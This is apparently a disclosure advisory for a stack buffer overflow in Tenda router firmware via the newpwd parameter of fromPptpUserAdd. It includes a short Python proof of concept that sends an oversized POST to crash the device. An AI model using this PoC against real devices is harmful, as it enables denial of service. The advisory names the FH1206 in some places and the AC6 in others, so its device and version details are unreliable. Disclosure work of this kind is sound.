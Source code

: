 # Stack Overflow Vulnerability in Tenda FH1206 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the newpwd parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the newpwd value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long newpwd input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious newpwd parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the newpwd parameter, which directly overwrites stack memory.
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd5.png)
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd6.png)

## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"newpwd": "A"*4000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```
![PoC](fromPptpUserAdd3.png)
### PoC Run Results:
![Results](fromPptpUserAdd1.png)




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent stack overflow attacks.



